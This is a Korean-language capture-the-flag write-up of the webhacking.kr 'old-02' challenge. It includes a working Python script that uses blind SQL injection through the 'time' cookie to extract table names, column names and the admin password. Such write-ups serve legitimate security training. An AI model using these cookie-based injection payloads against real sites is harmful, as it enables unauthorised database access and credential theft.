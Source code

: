 ```yaml
---
title: "[ webhacking.kr ] old-02"
categories: [Wargame, webhacking.kr]
tags: [webhacking.kr, web]
---
```




![image-20230628143429121](/assets/images/2023-06-28-old-02/image-20230628143429121.png)

문제를 들어가보면 위와 같은 문구가 보인다.



## **문제 분석**

---

<br>

![image-20230628143613566](/assets/images/2023-06-28-old-02/image-20230628143613566.png)

소스코드를 확인해보니 현재 시간과 admin.php 페이지에 접속하면 거부할 거라는 주석을 확인할 수 있다.

<br>

![image-20230628143848658](/assets/images/2023-06-28-old-02/image-20230628143848658.png)

admin.php에 접속해보면 password를 입력할 수 있다. 따라서 admin페이지의 password를 알아내야 한다.  

<br>

<br>

## **문제 풀이**

---

처음엔 admin페이지에서 sql injection을 아무런 반응이 없다

따라서 다른 부분에서 취약점을 찾아야한다.

<br>

![image-20230628153609935](/assets/images/2023-06-28-old-02/image-20230628153609935.png)

쿠키에 time이 있는데 이 값을 수정해주면 주석에 있던 값이 변하는 것을 확인할 수 있다.

<br>

![image-20230628153814580](/assets/images/2023-06-28-old-02/image-20230628153814580.png)

여기에 sql 구문을 입력해보면 올바르게 동작하는 것을 알 수 있다.

따라서 cookie를 이용하여 blind sql injection을 시도하면 password를 획득할 수 있다.

<br>

<br>

## **Exploit Code**

---

```python
import requests

url = 'https://webhacking.kr/challenge/web-02/'
cookies = {'PHPSESSID':'사용자 세션 값'}

def calculate_time(response):
    val=0
    val+=60*int(response.text[20])
    val+=10*int(response.text[22])
    val+=int(response.text[23])
    return val

def calc_table_len():
    cookies['time'] = '(select length(table_name) from information_schema.tables where table_schema=database() limit 0,1)'
    r = requests.get(url=url, cookies=cookies)
    return calculate_time(r)

def find_table_name(table_len):
    name = ''
    for i in range(table_len+1):
        cookies['time'] = f'(select ascii(substr(table_name,{str(i)},1)) from information_schema.tables where table_schema=database() limit 0,1)'
        r = requests.get(url=url, cookies=cookies)
        name += chr(calculate_time(r))
    print(name)
    return name

def find_column_len(table_name):
    cookies['time']= f"(select length(column_name) from information_schema.columns where table_name='{table_name}')"
    response=requests.get(url, cookies=cookies)
    c_name_length=int(calculate_time(response))
    print(c_name_length)
    return c_name_length

def find_column_name(column_len, table_name):
    name = ''
    for i in range(1,column_len+1):
        cookies['time'] = f"(select ascii(substr(column_name,{str(i)},1)) from information_schema.columns where table_name='{table_name}')"
        r = requests.get(url=url, cookies=cookies)
        name += chr(calculate_time(r))
    print(name)
    return name

def find_pw(column_name, table_name):
    pw = ''
    for i in range(1,100):
        cookies['time'] = f"(select ascii(substr({column_name},{str(i)},1)) from {table_name})"
        r = requests.get(url=url, cookies=cookies)
        pw += chr(calculate_time(r))
        print(pw)
    
if __name__ == "__main__":
    table_len = calc_table_len()
    table_name = find_table_name(table_len)
    column_len = find_column_len(table_name)
    column_name = find_column_name(column_len, table_name)
    find_pw(column_name, table_name)
```



 <br>

![image-20230628154147009](/assets/images/2023-06-28-old-02/image-20230628154147009.png)

password를 알아내서 adimn페이지에 로그인 하면 문제를 풀 수 있다.

